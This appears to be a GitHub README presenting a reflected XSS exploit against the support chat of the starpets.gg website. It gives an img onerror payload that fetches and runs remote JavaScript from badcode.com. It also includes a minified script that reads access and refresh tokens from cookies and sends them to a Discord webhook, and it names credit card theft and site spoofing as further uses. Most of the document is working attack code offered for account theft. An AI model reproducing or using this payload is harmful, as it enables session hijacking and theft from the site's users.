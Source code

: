 EXPLOIT/CODE FOUND AND MADE BY @Itemset on discord 
TEST BY LUKE AND NTXING




## Status: Being Fixed❤

### website: https://starpets.gg
#### Vulnibity: XSS Reflected 

**What can this exploit do?**

- lets attackers steal access tokens
- inject JS in to page
- steal creditcards when entered
- spoof website

**Where?**
In support chat. Victim will send the payload in the chat and JS will be injected

**xss injection**
```html
<img src="" onerror="YOUR SCRIPT" />
```

**Proof of work**
```html
<img src="" onerror="fetch('https://badcode.com/script.js').then(response => response.text()).then(script => new Function(script)());"/>
```
the following shows how to inject a remote javascript file on the website.

**Proof of concept**
using the proof of work if the attacker wants to steal a starpets account he must use the following JS script to be loaded 

```js
function getCookiesMap(e){return e.split(";").map(function(e){return e.trim().split("=")}).reduce(function(e,n){return e[n[0]]=n[1],e},{})}function tokens(){let e=getCookiesMap(document.cookie);if(!e.hasOwnProperty("access-token")||!e.hasOwnProperty("refresh-token"))return[void 0,void 0];let n=e["access-token"],t=e["refresh-token"];return{accessToken:n,refreshToken:t}}async function leet(e,n,t){try{await fetch(e,{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({content:null,embeds:[{title:"1337 made by NTX, Camel and Luke!",color:0,fields:[{name:"Access Token",value:"```\n"+n+"\n```"},{name:"Refresh Token",value:"```\n"+t+"\n```"}]}],attachments:[]})})}catch(o){console.error("Error sending message:",o)}}const{accessToken:e,refreshToken:n}=tokens();leet(atob("YOUR BASE 64 DISCORD WEBHOOK"),e,n);
```
